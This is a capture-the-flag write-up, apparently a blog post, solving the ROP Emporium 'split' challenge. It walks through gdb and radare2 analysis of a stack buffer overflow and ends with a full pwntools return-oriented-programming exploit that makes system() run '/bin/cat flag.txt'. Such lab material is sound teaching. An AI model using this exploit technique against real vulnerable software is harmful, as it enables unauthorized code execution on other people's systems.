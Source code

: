 ```yaml
---
title: "RopEmporium - Split"
date: 2021-12-17T14:27:14Z
draft: false
authors: ["Thuri"]
tags: ["rop", "RopEmporium"]
summary: "The goal of this challenge is to understand how function arguments are passed in 64-bit machine when doing return oriented programming."
toc:
    enable: true
    auto: false

code:
    maxShownLines: 100
---
```


> The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64-bit machine when doing return oriented programming. The binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

First we check the binary protections enabled. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary we use `gdb` to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as shown in the image below.The function looks familiar as for the ret2win function.

```asm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave
   0x0000000000400741 <+89>:	ret
End of assembler dump.
(gdb)
```

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![Stack](/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```

For this challenge we don't have a `ret2win` function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction** responsible for listing the files in the directory when called.

```asm
(gdb) disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb)
```

Goal is to pass a different string to the `system` function instead of **"/bin/ls"**

From the author's hint, we can look for useful hints in the binary using either radare2.

> Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions.

Analyzing binary using `radare2`, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```asm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadget t that we control **rdi** address.

**What are gadgets?**

Gadgets are sequence of instructions that end with `ret` instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to `system`.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and call system function. we need to fill the buffer memory with 32bytes, 8 bytes to overwrite the `rbp` address and 8 bytes to overwrite return address with pop rdi address.

Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address

payload = b"A" * 32  #fill the buffer
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running python3 code we get a flag.

![Split flag](/ropemporium/split_flag.png)

> **To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
